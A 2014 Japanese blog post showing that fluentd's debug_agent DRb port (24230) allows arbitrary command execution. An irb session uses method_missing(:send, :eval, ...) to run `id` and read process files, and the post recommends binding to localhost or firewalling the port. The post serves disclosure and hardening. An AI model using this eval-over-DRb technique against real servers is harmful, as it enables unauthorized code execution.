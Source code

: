 ```yaml
---
layout: post
title: "fluentd に drb で接続してみた"
date: 2014-06-13 22:41:08 +0900
comments: true
categories: fluentd ruby drb
---
```

druby の口が公開されていたら、そのユーザーの権限で何でも実行できるはず、
ということで、ちょっと試してみました。

<!--more-->

## 対象バージョン

- `ruby` 2.1.2
- `fluentd` 0.10.49

## 環境の準備

vagrant 上で rbenv と ruby-build を使ってインストールした ruby 2.1.2 で

- `gem install fluentd`
- `fluentd --setup /vagrant/fluent`
- `fluentd -c /vagrant/fluent/fluent.conf &`

と起動して準備しておきました。

## 実行例

`irb` を起動しているユーザーと同じユーザーで `fluentd` も起動しているので、
特に面白いことはできそうになかったのですが、
`/proc/$$/cmdline` を確認すると `irb` 側ではなく、
ちゃんと `fluentd` 側で任意のコマンドが実行できていることがわかります。

    vagrant@fluentd-vm:~$ rbenv exec irb -r irb/completion --simple-prompt
    >> require 'drb'
    => true
    >> d = DRbObject.new_with_uri('druby://127.0.0.1:24230'); nil
    => nil
    >> d.method_missing(:send, :eval, "`id`")
    => "uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)\n"
    >> d.method_missing(:send, :eval, '`cat /proc/$PPID/cmdline`')
    => "/opt/rbenv/versions/2.1.2/bin/ruby\x00/opt/rbenv/versions/2.1.2/bin/fluentd\x00-c\x00/vagrant/fluent/fluent.conf\x00"

## 雑感

`root` 権限で起動しているなら `debug_agent` は有効にしない方が良さそうだし、
ローカルユーザーが `fluentd` の実行ユーザーの権限を使えるとまずい場合も有効にしない方が良さそうだと思いました。

また、知っている人には当たり前のことですが、
`drb` は外部に安全に公開できるものではないので、
使う場合も `localhost` だけ待ち受けるように制限すべきです。

td-agent は初期設定でそうなっているのですが、
`fluentd --setup` はそうなっていないので、
適切に設定を変更するなり firewall で塞ぐなりしておく必要がありそうです。

## td-agent 1.1.19-1 での初期設定

`127.0.0.1` だけで待ち受けるようになっていました。

    ## live debugging agent
    <source>
      type debug_agent
      bind 127.0.0.1
      port 24230
    </source>

## `fluentd --setup` で生成される設定

外からも受けつけるようになっていました。

    # Listen DRb for debug
    <source>
      type debug_agent
      port 24230
    </source>
